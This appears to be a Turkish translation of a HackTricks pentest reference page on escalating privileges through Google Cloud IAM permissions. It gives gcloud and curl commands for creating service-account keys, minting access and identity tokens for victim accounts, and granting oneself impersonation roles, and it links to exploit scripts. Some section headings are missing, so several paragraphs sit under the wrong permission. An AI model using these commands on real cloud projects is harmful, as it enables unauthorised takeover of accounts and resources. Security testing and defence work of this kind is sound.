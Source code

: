 # GCP - IAM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## IAM

IAM hakkında daha fazla bilgi için:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### `iam.roles.update` (`iam.roles.get`)

Belirtilen izinlere sahip bir saldırgan, size atanan bir rolü güncelleyebilir ve size aşağıdaki gibi diğer kaynaklara ek izinler verebilir:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Bir **vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir script burada** ve bu yetkiyi kötüye kullanmak için bir python scripti [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py) bulabilirsiniz. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Belirtilen izinlere sahip bir saldırgan, **bir Hizmet Hesabına ait bir erişim tokeni talep edebilecektir**, bu nedenle bizden daha fazla yetkiye sahip bir Hizmet Hesabının erişim tokenini talep etmek mümkündür.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Bir [**vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir scripti burada bulabilirsiniz**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) ve bu yetkileri kötüye kullanmak için bir python scripti [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py) bulunmaktadır. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

### `iam.serviceAccountKeys.create`

Belirtilen izinlere sahip bir saldırgan, **bir Hizmet Hesabı için kullanıcı tarafından yönetilen bir anahtar oluşturabilecektir**, bu da bize GCP'ye o Hizmet Hesabı olarak erişim sağlayacaktır.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Bir [**vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir script burada**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) ve bu yetkiden yararlanmak için bir python scripti [**burada**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py) bulunmaktadır. Daha fazla bilgi için [**orijinal araştırmaya**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/) bakın.

**`iam.serviceAccountKeys.update` anahtarın değiştirilmesi için çalışmayacaktır** çünkü bunu yapmak için `iam.serviceAccountKeys.create` izinleri de gereklidir.

### `iam.serviceAccounts.implicitDelegation`

Eğer **`iam.serviceAccounts.implicitDelegation`** iznine sahipseniz ve bu izin, üçüncü bir Service Account üzerinde **`iam.serviceAccounts.getAccessToken`** iznine sahip bir Service Account üzerinde ise, o zaman implicitDelegation kullanarak **o üçüncü Service Account için bir token oluşturabilirsiniz**. Açıklamaya yardımcı olması için bir diyagram burada.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

[**belgelere**](https://cloud.google.com/iam/docs/understanding-service-accounts) göre, `gcloud` delegasyonu yalnızca [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) yöntemini kullanarak bir token oluşturmak için çalışır. İşte API'yi doğrudan kullanarak bir token almanın yolu:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Bir saldırgan, belirtilen izinlere sahip olduğunda **GCP'de rastgele yükleri imzalayabilecektir**. Bu nedenle, **SA'nın imzasız bir JWT'sini oluşturmak ve ardından bunu hedeflediğimiz SA tarafından imzalanmış bir blob olarak göndermek mümkün olacaktır**. Daha fazla bilgi için [**bunu okuyun**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Bir saldırgan, belirtilen izinlere sahip olduğunda **iyi biçimlendirilmiş JSON web token'larını (JWT'leri) imzalayabilecektir**. Önceki yöntemle arasındaki fark, **google'ın bir JWT içeren bir blob'u imzalamasını sağlamak yerine, zaten bir JWT bekleyen signJWT yöntemini kullanmamızdır**. Bu, kullanımını kolaylaştırır ancak yalnızca JWT'leri imzalayabilirsiniz, herhangi bir baytı değil.

Belirtilen izinlere sahip bir saldırgan, **hizmet hesaplarına IAM politikaları ekleyebilecektir**. Bunu, hizmet hesabını taklit etmek için ihtiyaç duyduğunuz izinleri **kendinize vermek** amacıyla kötüye kullanabilirsiniz. Aşağıdaki örnekte, ilginç SA üzerinde `roles/iam.serviceAccountTokenCreator` rolünü kendimize veriyoruz:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Bir **vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için otomatikleştirilmiş bir scripti burada bulabilirsiniz**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs izni**, **AWS'deki iam:PassRole iznine** benzer. Bu, bir Compute Engine örneği başlatmak gibi görevleri yerine getirmek için gereklidir, çünkü bir Hizmet Hesabı olarak "hareket etme" yetkisi verir ve güvenli izin yönetimini sağlar. Bunu olmadan, kullanıcılar haksız yere erişim kazanabilir. Ayrıca, **iam.serviceAccounts.actAs** istismarı, her biri bir dizi izin gerektiren çeşitli yöntemler içerir; bu, yalnızca birine ihtiyaç duyan diğer yöntemlerle karşılaştırıldığında farklıdır.

#### Hizmet hesabı taklidi <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Bir hizmet hesabını taklit etmek, **yeni ve daha iyi ayrıcalıklar elde etmek** için çok faydalı olabilir. Başka bir hizmet hesabını [taklit etmenin üç yolu vardır](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

- Kimlik doğrulama **RSA özel anahtarları kullanarak** (yukarıda ele alındı)
- Yetkilendirme **Cloud IAM politikaları kullanarak** (burada ele alındı)
- **GCP hizmetlerinde işler dağıtarak** (bir kullanıcı hesabının ele geçirilmesiyle daha çok ilgili)

### `iam.serviceAccounts.getOpenIdToken`

Bahsedilen izinlere sahip bir saldırgan, bir OpenID JWT oluşturabilecektir. Bunlar kimliği doğrulamak için kullanılır ve bir kaynağa karşı herhangi bir örtük yetkilendirme taşımak zorunda değildir.

Bu [**ilginç yazıya**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b) göre, hedef kitlenin (token ile kimlik doğrulamak istediğiniz hizmet) belirtilmesi gereklidir ve bir JWT alacaksınız; bu JWT, hizmet hesabını ve JWT'nin hedef kitlesini belirten google tarafından imzalanmıştır.

Erişiminiz varsa bir OpenIDToken oluşturabilirsiniz:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
O zaman sadece hizmete erişmek için bunu kullanabilirsiniz:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Bu tür token'lar aracılığıyla kimlik doğrulamayı destekleyen bazı hizmetler şunlardır:

- [Google Cloud Run](https://cloud.google.com/run/)
- [Google Cloud Functions](https://cloud.google.com/functions/docs/)
- [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
- [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (Google OIDC kullanıyorsanız)

Bir hizmet hesabı adına OpenID token oluşturma ile ilgili bir örneği [**burada**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py) bulabilirsiniz.

## Referanslar

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}
